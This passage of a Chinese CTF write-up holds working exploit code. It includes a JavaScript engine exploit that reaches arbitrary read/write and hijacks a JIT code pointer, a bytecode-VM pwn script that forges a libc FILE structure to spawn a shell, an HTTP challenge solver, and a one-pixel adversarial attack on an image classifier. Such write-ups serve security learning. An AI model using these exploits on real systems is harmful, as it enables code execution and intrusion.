}

var arr_buf = new ArrayBuffer(8);
var arr_buf2 = new ArrayBuffer(8);
var f64_arr = new Float64Array(arr_buf);
var b64_arr = new BigInt64Array(arr_buf);
let u32_arr = new Uint32Array(arr_buf);
function ftoi(f) {
    f64_arr[0] = f;
    return b64_arr[0];
}
function itof(i) {
    b64_arr[0] = i;
    return f64_arr[0];
}
function smi(i) {
    return i << 1n;
}
function hex(i) {
    return "0x"+i.toString(16);
}

function gc_minor() {
    for (let i = 0; i < 0x100; i++) {
        new ArrayBuffer(0x10000);
    }
}

function gc() {
    if (dogc_flag) {
        gc_minor();
    }
}

function js_heap_defragment() {
    for (let i = 0; i < 0x1000; i++) new ArrayBuffer(0x10);
    for (let i = 0; i < 0x1000; i++) new Uint32Array(1);
}

let empty_object = {}
let empty_array = []
let corrupted_instance = null;

class ClassParent { }
class ClassBug extends ClassParent {
    constructor() {
        const v24 = new new.target();
        let x = [
            empty_object, empty_object, empty_object, empty_object, 
            empty_object, empty_object, empty_object, empty_object, 
            empty_object, empty_object, empty_object, 
        ];
        super();
        let a = [
            1.1
        ];
        // super();
        this.x = x;
        this.a = a;
        JSON.stringify(empty_array);
    }
    [1] = gc();
}

for (let i = 0; i < 200; i++) {
    dogc_flag = false;
    if (i % 2 == 0) dogc_flag = true;
    gc();
}

for (let i = 0; i < 650; i++) {

    dogc_flag = false;
    if (i == 644 || i == 645 || i == 646 || i == 640) {
        dogc_flag = true;
        gc();
        dogc_flag = false;
    }
    if (i == 646) dogc_flag = true;

    let x = Reflect.construct(ClassBug, empty_array, ClassParent);
    if (i == 646) corrupted_instance = x;
}

function addrof(obj) {
    corrupted_instance.x[5] = obj;
    f64_arr[0] = corrupted_instance.a[0];
    let r = u32_arr[0] & 0xffffffff;
    return r;
}

// set fake length
corrupted_instance.x[10] = 0x10000;
console.log("[*] a.length: "+corrupted_instance.a.length);
if (corrupted_instance.a.length != 0x10000) {
    console.log("[*] failed to set a.length");
    exit();
}

let target_arr = new Uint32Array(arr_buf);
target_arr[0] = 0x41414141;
target_arr[1] = 0x42424242;
target_arr[2] = 0x43434343;
target_arr[3] = 0x44444444;
let addrof_target_arr = addrof(target_arr);
console.log("[*] target_arr address: "+hex(addrof_target_arr));

heap_lower32 = corrupted_instance.a[0x8ed];
heap_lower32 = ftoi(heap_lower32) & 0xffffffffn;
heap_higher32 = corrupted_instance.a[0x8ed];
heap_higher32 = ftoi(heap_higher32) >> 32n;
heap_addr = (heap_higher32 << 32n) | heap_lower32;
console.log("[*] heap address: "+hex(heap_addr));

function set_heap_addr(addr) {
    corrupted_instance.a[0x8ed] = itof(addr);
}

function heap_arb_read(addr) {
    set_heap_addr(addr);
    return BigInt(target_arr[0]) | (BigInt(target_arr[1]) << 32n);
}

js_heap_ptr = heap_arb_read(heap_addr+0x48n)
console.log("[*] js heap ptr: "+hex(js_heap_ptr));
js_heap = heap_arb_read(js_heap_ptr+0x0n);
console.log("[*] js heap address: "+hex(js_heap));

addrof_foo = addrof(foo);
console.log("[*] foo address: "+hex(addrof_foo));

function heap_arb_read32(addr) {
    return heap_arb_read(addr) & 0xffffffffn;
}
foo_code = heap_arb_read32(BigInt(addrof_foo)-1n+js_heap+0xcn);
foo_code = BigInt(foo_code) + js_heap - 0x1n;
console.log("[*] foo code address: "+hex(foo_code));
rwx_addr = heap_arb_read(foo_code+0x14n);
console.log("[*] rwx address: "+hex(rwx_addr));
jmp_addr = rwx_addr + 0x66n;

function arb_write_32(addr, value) {
    set_heap_addr(addr);
    target_arr[0] = value;
}
arb_write_32(foo_code + 0x14n, Number(jmp_addr & 0xffffffffn));
arb_write_32(foo_code + 0x18n, Number(jmp_addr >> 32n));

foo();
```

## bytEc0DeVM

核心： VirtualMachine::Interpret  patch 0X124CA    ->   90  

支持的指令：

```Python
CMD           OP  
LITERAL       0  push int
LITERAL_ARRAY 1  push size arr
LOAD          2  push *pop
STORE         3  *pop = second_pop
LOAD_LCL      4  push *(pop+R0)
STORE_LCL     5  *(pop+R0) = second_pop
LOAD_ARG      6  push *(pop+R1)
ALLOC         7  push malloc 
FREE          8  feee pop    
ADD           9  push pop + pop
SUB           10 push second_pop - pop
LESS          11 push second_pop < pop
GREATER       12 push second_pop > pop
NOT           13 push pop == 0
EQUALS        14 push pop == pop
JMP           15 VM_RIP = pop
JMP_IF        16 tmp = pop; if (second_pop) { VM_RIP = tmp } 
CALL          17 old_pc = VM_RIP + 1; VM_RIP = pop; push R2; R2 = old_pc; push R0; push R1; push R3; R1 = SP - ? ; R0 = SP + 4; SP = R0 + *RIP 
RETURN        18 VM_RIP = R2; *R1 = pop; SP = R1; R3 = R0[-1]; R1 = R0[-2]; R2 = R0[-4]; R0 = R0[-3]
PRINT         19 len = pop; for (int i=0; i<len; i++) { putc(pop); }
PRINT_INT     20 cout << pop;
PRINT_ENDL    21 cout << endl; 
```

load和store要加vm的偏移，没有限制。VM的结构体和libc对齐，所以似乎有libc任意读写

逆完发现是RW，void坏 https://github.com/Illation/BytecodeVM

然而所有操作都是signed int32，程序是64位 （libc2.35 0ubuntu3.8）

拿apple打：

```Python
from pwn import *
def add(addr, fr, to):
    if fr > to:
        offset = 2 ** 32 + (to - fr)
        print(hex(offset))
        flag = 0
        if offset % 2 == 1:
            flag = 1
        
        return f"""
LITERAL {offset // 2}
LITERAL {(offset // 2) + flag}
LITERAL {addr+0x200ec000-0x10}
LOAD_LCL
ADD
ADD
LITERAL {addr+0x200ec000-0x10}
STORE_LCL
"""  
    else:
        offset = (to - fr)
        
        return f"""
LITERAL {offset}
LITERAL {addr+0x200ec000-0x10}
LOAD_LCL
ADD
LITERAL {addr+0x200ec000-0x10}
STORE_LCL
"""  
    
def write_low(addr, offset):
    assert abs(offset) < 2 ** 32
    if offset < 0:
        offset = 2 ** 32 + offset
    print(hex(offset))
    flag = 0
    if offset % 2 == 1:
        flag = 1
    
    return f"""
LITERAL {offset // 2}
LITERAL {(offset // 2) + flag}
LITERAL {0x21b680+0x200ec000-0x10}
LOAD_LCL
ADD
ADD
LITERAL {addr+0x200ec000-0x10}
STORE_LCL
"""  
    
def write_high(addr, offset):
    assert abs(offset) < 2 ** 32
    if offset < 0:
        offset = 2 ** 32 + offset
    print(hex(offset))
    flag = 0
    if offset % 2 == 1:
        flag = 1
    
    return f"""
LITERAL {offset // 2}
LITERAL {(offset // 2) + flag}
LITERAL {0x21b680+4+0x200ec000-0x10}
LOAD_LCL
ADD
ADD
LITERAL {addr+0x200ec000-0x10}
STORE_LCL
"""  

code = ""
code += add(0x21b6a0+0x0, 0xfbad2086, u32(b'  sh'))
code += add(0x21b6a0+0x4, 0, u8(b';'))

code += write_low(0x21b6a0+0x28, -0x1ca930)
code += write_high(0x21b6a0+0x28+4, 0)

code += write_low(0x21b6a0+0xa0, -0x10)
code += write_high(0x21b6a0+0xa4, 0)

off = 0x88
code += write_low(0x21b6a0+off, 0x100+8*5)
code += write_high(0x21b6a0+off+4, 0)

off = 0xd0
code += write_low(0x21b6a0+off, 0x28-0x68)
code += write_high(0x21b6a0+off+4, 0)

off = 0xd8
code += write_low(0x21b6a0+off, -0x45e0)
code += write_high(0x21b6a0+off+4, 0)

print(code)

with open("1", "w") as f:
    f.write(code)
```

# Misc

## Pretender

套娃题，题目大意是从返回包里解析变量做计算，后台随机概率爆到符合条件的包就进下一轮

跑通一次之后，题目说flag就是“来时的路”（每次计算结果%256）

```Python
from pwn import *
import json

# io = remote("")
context.log_level = 'warn'

cookie = {
    "479ee016b9a4955f": "503c3abcf84bc55c",
    "200115c4555237e2": "3cfc5705ea6f8c40",
    "43d35e6c7e6d68cc": "2f4fd7d7573a3dd8",
    "70217c68d86a65d6": "dcdeffb2fe7fea0d",
    "6a5c246f5cdc8a18": "64073e99e8a088bd",
    "cf4e2a945ef9aef6": "c1378fd529dcba99",
    "592bfb6be5ae0b1e": "44a7e5e410f65a60",
    "38f558891fd11967": "34b4e4585625dda0",
    "10bede55a8318a00": "4f7ffe44decd05ef",
    "d0372458199d79d0": "a086042d1142bb02",
    "6cf38e5ebfa1de3e": "8033dd5ab7625628",
    "edc4d1b6ebed4b07": "6238f31302009a71",
    "98f5347e9e9d929a": "c9f58072ca14e9be",
    "70baf3862884d3d8": "b49b1c87c92a97fe",
    "e8612a1662a15d35": "27deb8e1f0379006",
    "85efc6b040be91c9": "3ef75d6223bd1c85",
    "03b59575131287c7": "121a257f0e6a7887",
    "41924345f71813b1": "899d56ddcdf8b35d",
    "3949a01dc6a8bea7": "4b68a36e7d3b1331",
    "d705364c0831ef44": "17f0ab2d053ca43b",
    "7db31ea3e0da0082": "35b64255a039b766",
    "a07c68a81c444b85": "4917ce5b81069f0f",
    "e668ad59f6cd542a": "865d0fdacd04f10c",
    "e7d56517bfbbec8e": "eb9838ac5161d928",
    "76b1f80ea9466a73": "c9a76b9a18c6b9ee",
    "ccf5daff0abff733": "3375fbf78ba1541b",
    "ad2ce7be8730d240": "c11071075bd4d883",
    "de9371f1b8113be7": "56f94331bec22356",
    "b8caf95607d6a3f9": "070d4805af542d1d"
}
# print(json.dumps(cookie, indent=4))
# getheader = "/?answer="
def make_header(num):
    req = b"GET /?answer=" + str(num).encode() + b" HTTP/1.1\r\n"
    req += b"Cookie: " + "; ".join(map(lambda k: f"{k[0]}={k[1]}", cookie.items())).encode() + b"\r\n"
    # req += b"Connection: keep-alive\r\n"
    return req
# print(make_header("111"))
def make_req(num):
    io = remote("173.30.12.56", 10810)
    io.sendline(make_header(num))
    aa = io.recvall()
    io.close()
    return aa

# ans = 0
# PATTERN = re.compile(rb"euqation ([0-9]+):\s*<\/p><p>(.*?)<\/p>")
# PATTERN_2 = re.compile(rb"\{([0-9]+):([0-9]+):pos\}")
# PATTERN_3 = re.compile(rb"Set-Cookie: ([0-9a-f]+)=([0-9a-f]+)")
# for i in range(111):
   
#     result = make_req(ans)
#     if b"Set-Cookie" in result:
#         tmp = PATTERN_3.search(result)
#         key = tmp.group(1).decode()
#         value = tmp.group(2).decode()
#         cookie[key] = value
#         print(f"[+] new cookie {key} => {value}")
#         print(json.dumps(cookie, indent=4))
#         # break
#     tmp = PATTERN.search(result)
#     state = tmp.group(1)
#     question = tmp.group(2)
#     question = question.strip().strip(b"?").strip().strip(b"=")
#     # print(state, question)
#     tmp = PATTERN_2.findall(result)
#     # print(tmp)
#     for value, key in tmp:
#         question = question.replace(b"$"+key+b"$", value)
#     # print(question)
#     ans = eval(question)
#     # print(ans)
#     print(f"[+] {state} {ans}")
    

#     # print(make_req(ans))
def make_template(question, s):
    tmp = PATTERN_2.search(s)
    return question.replace(b"$"+tmp.group(2)+b"$", tmp.group(1))

import base64
func_mp = {
    "hex": lambda x: bytes.fromhex(x.decode()),
    "base64": base64.b64decode
}
print(make_req(0).decode())
ans = 0
PATTERN = re.compile(rb"euqation ([0-9]+):\s*<\/p><p>(.*?)<\/p>")
PATTERN_2 = re.compile(rb"\{([0-9]+):([0-9]+):pos\}")
PATTERN_3 = re.compile(rb"Set-Cookie: ([0-9a-f]+)=([0-9a-f]+)")
PATTERN_4 = re.compile(rb"\{(.*?):(.*?)\}")
PATTERN_5 = re.compile(rb"euqation ([0-9]+):\s*(.*?)= \?")
# for i in range(111):
#     result = make_req(ans)
#     if b"Set-Cookie" in result:
#         tmp = PATTERN_3.search(result)
#         key = tmp.group(1).decode()
#         value = tmp.group(2).decode()
#         cookie[key] = value
#         print(f"[+] new cookie {key} => {value}")
#         print(json.dumps(cookie, indent=4))
#         # break
#     tmp = PATTERN.search(result)
#     state = tmp.group(1)
#     question = tmp.group(2)
#     question = question.strip().strip(b"?").strip().strip(b"=")
#     # print(state, question)

#     tmp = PATTERN_4.findall(result)
#     # print(tmp)
#     for value, func in tmp:
#         value = func_mp[func.decode()](value)
#         while xx := PATTERN_4.search(value):
#             if xx.group(2).decode() not in func_mp:
#                 break
#             value = func_mp[xx.group(2).decode()](xx.group(1))
#             if isinstance(value, str):
#                 value = value.encode()
#         print(value)
#         question = make_template(question, value)
#     # print(question)
#     # break

#     # for value, key in tmp:
#     #     question = question.replace(b"$"+key+b"$", value)
#     # # print(question)
#     ans = eval(question)
#     # # print(ans)
#     print(f"[+] {state} {ans}")
    

for i in range(10000):
    result = make_req(ans)
    print(result)
    if b"Set-Cookie" in result:
        tmp = PATTERN_3.search(result)
        key = tmp.group(1).decode()
        value = tmp.group(2).decode()
        cookie[key] = value
        print(f"[+] new cookie {key} => {value}")
        print(json.dumps(cookie, indent=4))
        # break
    
    tmp = PATTERN_5.search(result)
    state = tmp.group(1)
    ans = eval(tmp.group(2))
    print(f"[+] {state} {ans}")
    
```

## Cain's Dog

one pixel attack

https://adversarial-attacks-pytorch.readthedocs.io/en/latest/attacks.html#module-torchattacks.attacks.onepixel

需要把 `torchattack/attacks/onepixel.py` 的 L115 和L117的条件改改成

```Python
    def _attack_success(self, image, label, delta):
        adv_image = self._perturb(image, delta)  # Single delta
        prob = self._get_prob(adv_image)
        return (prob[0][0] > 0.92)
```

step和popsize要调大，尤其是step要调大

```Python
import numpy as np
import torch
import torch.nn as nn
from torch.nn import functional as F
from torchvision.models import resnet34
from PIL import Image
import torchattacks

model = resnet34()
model.fc = nn.Linear(model.fc.in_features, 2)
model.load_state_dict(torch.load('model.pth', map_location='cpu'))
model.eval()

ori = np.array(Image.open("Cain's_dog.png"))
images = torch.tensor(ori.transpose(2, 0, 1) / 255.0, dtype=torch.float32).unsqueeze(0)
labels = torch.tensor([1], dtype=torch.int)
atk = torchattacks.OnePixel(model, pixels=33, steps=80, popsize=80, inf_batch=128)
print('Begin attack...')
adv_images = atk(images, labels)
print('End attack...')
print(f'{adv_images.shape = }')
print(f'pred = {F.softmax(model(adv_images), dim=-1)}')
adv_images = adv_images.numpy()
# check
num_images = adv_images.shape[0]
for i in range(num_images):
    print(f'{i = }')
    adv_image = adv_images[i].transpose((1, 2, 0))
    adv_image = (255 * adv_image).astype(np.uint8) #  + 1e-12

    outputs = torch.tensor(adv_image.transpose(2, 0, 1) / 255.0, dtype=torch.float32).unsqueeze(0)
    pred = torch.softmax(model(outputs), dim=1)
    print(f'{pred[0][0] = }')
    if pred[0][0] > 0.9:
        print('AOLIGEI!!!')
        Image.fromarray(adv_image).save('attack.png')
```
